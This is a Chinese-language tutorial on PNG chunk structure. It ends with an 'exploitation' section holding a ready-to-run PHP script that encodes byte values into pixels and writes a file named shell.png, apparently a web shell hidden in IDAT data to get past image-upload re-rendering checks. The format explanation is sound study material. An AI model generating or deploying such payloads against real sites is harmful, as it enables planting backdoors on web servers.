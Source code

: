 
### PNG数据块（Chunk）
	PNG定义了两种类型的数据块，一种是称为关键数据块(critical chunk)，这是标准的数据块，另一种叫做辅助数据块(ancillary chunks)，这是可选的数据块。关键数据块定义了4个标准数据块，每个PNG文件都必须包含它们，PNG读写软件也都必须要支持这些数据块。虽然PNG文件规范没有要求PNG编译码器对可选数据块进行编码和译码，但规范提倡支持可选数据块。

下表就是PNG中数据块的类别，其中，关键数据块部分我们使用深色背景加以区分。<br />![image-20210604092731144.png](./assets/1656467274769-0ab2c560-3517-47bb-85e4-bea7d6333949.png)



### 数据块结构
PNG文件中，每个数据块由4个部分组成，如下：<br />![image-20210604092834737.png](./assets/1656467282013-dfa394c9-d8f3-4e71-a022-9589ddb6df8e.png)


### **IHDR**
	文件头数据块IHDR(header chunk)：它包含有PNG文件中存储的图像数据的基本信息，并要作为第一个数据块出现在PNG数据流中，而且一个PNG数据流中只能有一个文件头数据块。文件头数据块由13字节组成，它的格式如下表所示。<br />![image-20210604092938906.png](./assets/1656467290083-336b35bb-3a4e-48ae-869e-380a7192ada9.png)



### PLTE
	调色板数据块PLTE(palette chunk)包含有与索引彩色图像(indexed-color image)相关的彩色变换数据，它仅与索引彩色图像有关，而且要放在图像数据块(image data chunk)之前。PLTE数据块是定义图像的调色板信息，PLTE可以包含1~256个调色板信息，每一个调色板信息由3个字节组成：<br />![image-20210604093041221.png](./assets/1656467299220-8701d99d-28d4-416a-98bb-001b3a448da5.png)

	因此，调色板的长度应该是3的倍数，否则，这将是一个非法的调色板。对于索引图像，调色板信息是必须的，调色板的颜色索引从0开始编号，然后是1、2……，调色板的颜色数不能超过色深中规定的颜色数（如图像色深为4的时候，调色板中的颜色数不可以超过2^4=16），否则，这将导致PNG图像不合法。真彩色图像和带alpha通道数据的真彩色图像也可以有调色板数据块，目的是便于非真彩色显示程序用它来量化图像数据，从而显示该图像。


### DAT
	图像数据块IDAT(image data chunk)：它存储实际的数据，在数据流中可包含多个连续顺序的图像数据块。IDAT存放着图像真正的数据信息，因此，如果能够了解IDAT的结构，我们就可以很方便的生成PNG图像。


### IEND
	图像结束数据IEND(image trailer chunk)：它用来标记PNG文件或者数据流已经结束，并且必须要放在文件的尾部。如果我们仔细观察PNG文件，我们会发现，文件的结尾12个字符看起来总应该是这样的：00 00 00 00 49 45 4E 44 AE 42 60 82<br />![image-20210604093248561.png](./assets/1656467308964-8213146a-510b-4995-90bc-d37eb6924a98.png)


### 利用
这里有国外大牛写的脚本,直接拿来运行即可
```php
<?php
 $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
            0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
            0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
            0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
            0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
            0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
            0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
            0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
  $r = $p[$y];   $g = $p[$y+1];
  $b = $p[$y+2];
  $color = imagecolorallocate($img, $r, $g, $b);
  imagesetpixel($img, round($y / 3), 0, $color);}
imagepng($img,'./shell.png');
?>
```
